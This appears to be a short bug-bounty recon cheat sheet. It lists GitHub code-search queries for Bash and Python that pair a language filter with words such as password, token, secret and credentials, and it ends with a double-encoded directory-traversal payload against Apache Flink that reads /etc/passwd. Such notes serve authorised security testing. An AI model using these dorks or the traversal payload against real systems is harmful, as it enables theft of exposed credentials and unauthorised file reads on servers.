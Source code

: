 ### Bash Keyword
```text
language:bash password
language:bash pwd
language:bash ftp
language:bash dotfiles
language:bash JDBC
language:bash key-keys
language:bash send_key-keys
language:bash send,key-keys
language:bash token
language:bash user
language:bash login-singin
language:bash passkey-passkeys
language:bash pass
language:bash secret
language:bash credentials
language:bash config
language:bash security_credentials
language:bash connectionstring
language:bash ssh2_auth_password
```

### Python keywords
```text
language:python password
language:python pwd
language:python ftp
language:python dotfiles
language:python JDBC
language:python key-keys
language:python send_key-keys
language:python send,key-keys
language:python token
language:python user
language:python login-singin
language:python passkey-passkeys
language:python pass
language:python secret
language:python credentials
language:python config
language:python security_credentials
language:python connectionstring
language:python ssh2_auth_password
```
***Example :***`“bugcrowd.com” password language:bash`

**Source:-** 

***https://orwaatyat.medium.com/your-full-map-to-github-recon-and-leaks-exposure-860c37ca2c82***

## Apache Flink new CVE Dir Traversal
```text
/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```
